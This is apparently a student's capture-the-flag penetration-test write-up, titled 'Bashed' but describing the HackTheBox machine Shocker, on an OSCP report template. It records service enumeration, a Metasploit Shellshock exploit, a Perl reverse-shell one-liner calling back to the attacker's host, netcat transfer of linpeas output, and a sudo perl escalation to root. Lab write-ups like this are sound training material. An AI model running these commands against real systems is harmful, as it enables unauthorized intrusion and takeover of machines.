




# Pentesting Report - Bashed

## Introduction

The Offensive Security Exam penetration test report contains all efforts that were conducted in order to pass the Offensive Security course.
This report should contain all items that were used to pass the overall exam.
This report will be graded from a standpoint of correctness and fullness to all aspects of the  exam.
The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the Offensive Security Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The student is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.
An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course.
Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report and include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable.
- Any additional items that were not included

# Sample Report - High-Level Summary

John Doe was tasked with performing an internal penetration test towards Offensive Security Labs.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Offensive Security's internal lab systems - the **THINC.local** domain.
John's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Offensive Security.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Offensive Security's network.
When performing the attacks, John was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations.
During the testing, John had administrative level access to multiple systems.
All systems were successfully exploited and access granted.
These systems as well as a brief description on how access was obtained are listed below:

- Exam Trophy 1 - Got in through X
- Exam Trophy 2 - Got in through X

## Sample Report - Recommendations

John recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Sample Report - Methodologies

John utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Labs and Exam environments are secure.
Below is a breakout of how John was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Sample Report - Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, John was tasked with exploiting the exam network.
The specific IP addresses were:

**Exam Network**

Host: 10.10.10.56

## Sample Report - Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

# Nmap scan host

```
$ sudo nmap -sC -sV -oA nmap/shocker-initial 10.10.10.56    
[sudo] password for user: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-28 21:21 CET
Nmap scan report for 10.10.10.56
Host is up (0.026s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.50 seconds

```

A nmap scan with the vulnerability scripts enabled showed us the Slowloris vulnerability which is a DOS vulnerabiliby.

```
$ sudo nmap -p 80 --script vuln -oA nmap/shocker-vuln 10.10.10.5
# Nmap 7.91 scan initiated Sun Feb 28 21:32:40 2021 as: nmap -p 80 --script vuln -oA nmap/shocker-vuln 10.10.10.56
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.56
Host is up (0.028s latency).

PORT   STATE SERVICE
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.

# Nmap done at Sun Feb 28 21:38:26 2021 -- 1 IP address (1 host up) scanned in 345.86 seconds
```

On browsing the web server on port 80 we see a very basic webpage:



```
$ dirb http://10.10.10.56 | tee dirb.log

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun Feb 28 21:42:35 2021
URL_BASE: http://10.10.10.56/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.56/ ----
+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)
+ http://10.10.10.56/index.html (CODE:200|SIZE:137)
+ http://10.10.10.56/server-status (CODE:403|SIZE:299)                                                                                   

-----------------
END_TIME: Sun Feb 28 21:44:41 2021
DOWNLOADED: 4612 - FOUND: 3
```

As expected from the name of the box we find the box is vulnerable to the shellshock vulnerability:

```
$ nikto -host 10.10.10.56 -Format txt -o nikto.log 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.56
+ Target Hostname:    10.10.10.56
+ Target Port:        80
+ Start Time:         2021-02-28 21:37:27 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: 89, size: 559ccac257884, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8673 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2021-02-28 21:41:38 (GMT1) (251 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Finding a suitable cgi script was a pain, eventually I found a user.sh script in the cgi-bin directory:

```
$ gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster/shocker-medium.log -x cgi,pl,sh 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     pl,sh,cgi
[+] Timeout:        10s
===============================================================
2021/02/28 22:18:04 Starting gobuster
===============================================================
/user.sh (Status: 200)
```

```
http://shocker.htb/cgi-bin/user.sh
```

```
$ cat user.sh                   
Content-Type: text/plain

Just an uptime test script

 16:32:57 up  1:12,  0 users,  load average: 0.05, 0.14, 0.09
```


```
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting   Required  Description
   ----            ---------------   --------  -----------
   CMD_MAX_LENGTH  2048              yes       CMD max line length
   CVE             CVE-2014-6271     yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent        yes       HTTP header to use
   METHOD          GET               yes       HTTP method to use
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.10.10.56       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /cgi-bin          yes       Target PATH for binaries used by the CmdStager
   RPORT           80                yes       The target port (TCP)
   SRVHOST         0.0.0.0           yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080              yes       The local port to listen on.
   SSL             false             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /cgi-bin/user.sh  yes       Path to CGI script
   TIMEOUT         5                 yes       HTTP read response timeout (seconds)
   URIPATH                           no        The URI to use for this exploit (default is random)
   VHOST                             no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86


msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.10.14.20:4444 
[*] Command Stager progress - 100.82% done (1101/1092 bytes)
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rpath /bin
rpath => /bin
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on 10.10.14.20:4444 
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (980808 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.20:4444 -> 10.10.10.56:59158) at 2021-02-28 22:30:07 +0100

meterpreter > getuid
Server username: shelly @ Shocker (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > ls -l
Listing: /usr/lib/cgi-bin
=========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100755/rwxr-xr-x  113   fil   2017-09-22 21:29:26 +0200  user.sh

```
We open a netcat on port 5555 on our box for a reverse shell:

```
┌──(user㉿kali)-[~/hackthebox/hackthebox/shocker]
└─$ nc -lnvp 5555 
listening on [any] 5555 ...
```

We execute this script to create an reverse shell outside our environment:

```
perl -e 'use Socket;$i="10.10.14.20";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

We gain access to the box an find the user flag:

```
┌──(user㉿kali)-[~/hackthebox/hackthebox/shocker]
└─$ nc -lnvp 5555 
listening on [any] 5555 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.56] 40466
/bin/sh: 0: can't access tty; job control turned off
$ 
$ ls -l
total 4
-r--r--r-- 1 root root 33 Feb 28 15:21 user.txt
```



We setup a webserver on our host on port 8000 with a linpeas.sh script:

```
┌──(user㉿kali)-[~/hackthebox/hackthebox/shocker/upload]
└─$ cp /home/user/Downloads/linpeas/linpeas.sh .
                                                                                                                                          
┌──(user㉿kali)-[~/hackthebox/hackthebox/shocker/upload]
└─$ python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

We download and execute the Linpeas.sh script:



Then we upload the output to our machine:

```
$ nc 10.10.14.20 6666 < linpeas.out
```

```
$ nc -lnvp 6666 > linpeas.out
```

We find that the user shelly can run /usr/bin/perl as root:

```
User shelly may run the following commands on Shocker:                                                                                    
    (root) NOPASSWD: /usr/bin/perl  
```

We can use perl to escalate our privileges to root:

```
$ whoami
shelly
$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
whoami
root
```



**Vulnerability Fix:**

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## Sample Report - House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on the exam network were completed, John removed all user accounts and passwords as well as the meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.
